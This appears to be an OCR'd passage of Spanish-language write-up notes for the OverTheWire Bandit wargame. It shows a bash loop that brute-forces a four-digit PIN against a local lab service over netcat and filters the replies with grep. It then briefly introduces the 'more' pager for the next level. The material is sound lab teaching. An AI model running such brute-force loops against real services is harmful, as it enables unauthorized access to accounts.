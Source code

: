 
#### si le pasamos el pass junto con las posibles combinaciones quedaria asi:

```
for pin in {0000..9999}; do echo "password $pin"; done
```

#### se generan todas las combinaciones y hay que meterlo en un fichero

```
└─$ for pin in {0000..9999}; do echo "password $pin"; done > combination.txt
```

#### si esto lo pipeamos con netcat nos va a salir muchas lineas de error

```
cat combination.txt | nc localhost 30002
wrong! password dont is correct
etc
```

#### le sacamos las lineas de wrong con grep -v

```
cat combination.txt | nc localhost 30002 | grep -v "Wrong"
```

#### sale una nueva linea, asi que tambien la sacamos con -vE 

```
cat combination.txt | nc localhost 30002 | grep -vE "Wrong|Please enter"
```

#### ahora va ir probando todas las posibles pass y cuando acierte lo imprimira

pim pam pum

-------------------------------------------------------------



# Escapando del contexto de un comando

## bandit 25 ->26

¡A veces el tamaño sí que importa!, aislado a esto que hemos visto, el comando ‘**more**‘ lo que te permite es mostrar el resultado de la ejecución de un comando en la terminal de a una página a la vez. Esto es especialmente útil para casos en los que se ejecutan comandos que puedan llegar a causar un gran desplazamiento.

Para pasar a la página siguiente, tienes que presionar la **barra espaciadora** en el teclado.
